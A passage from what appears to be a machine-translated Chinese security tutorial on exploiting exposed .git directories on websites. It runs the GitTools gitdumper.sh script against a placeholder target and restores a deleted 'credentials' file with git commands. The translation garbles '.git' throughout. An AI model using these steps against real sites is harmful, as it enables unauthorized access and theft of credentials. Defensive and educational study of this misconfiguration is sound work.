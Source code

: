 去寻找暴露的人。git 库，可以简单添加。git 在目标网站的根 URL。不幸的是，有时您可能会遇到两种不同的 HTTP 错误:

*   **404 错误-。服务器中不存在 git** 或路径错误
*   **403 禁止-。git** 存在，但是您无法列出该服务器中的文件夹

对于第二个错误，它可能是由于在服务器上禁用目录列表而导致的，您可以继续尝试。git 文件夹类似`.git/config`。

一旦识别出暴露者。git 存储库，下一步是提取。手动 git 文件夹或者使用工具，例如 [GitTools](https://github.com/internetwache/GitTools) 库中的 dumper.sh 来自动化这个过程。命令行类似于:

```
bash gitdumper.sh [http://target/.git/](http://target/.git/) <dest-dir>
```

注意:后面的斜杠。目标 URL `http://target/.git/`中的 git 不能省略，否则会得到一个错误:

```
###########
# GitDumper is part of [https://github.com/internetwache/GitTools](https://github.com/internetwache/GitTools)
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
​
[-] /.git/ missing in url
```

第二步:探查。git 文件夹

一旦下载了。git 完成后，您可以查看整个本地的所有状态变化。例如，如果一个开发人员删除了一个名为`credentials`的文件并提交了更改，您将会看到用`git status`命令提交凭证文件删除。

```
$ git status
​
# On branch master
# Changes not staged for commit:
#   (use "git add/rm <file>..." to update what will be committed)
#   (use "git checkout -- <file>..." to discard changes in working directory)
#
#       deleted:    credentials
​
no changes added to commit (use "git add" and/or "git commit -a")
​
```

状态结果只显示被删除的文件`credentials`，我们可以运行`git checkout -- .`或`git restore .`将本地存储库重置为最后一次提交以检索被删除的`credentials`文件。

```
$ git checkout -- . 
$ ls 
credentials
```
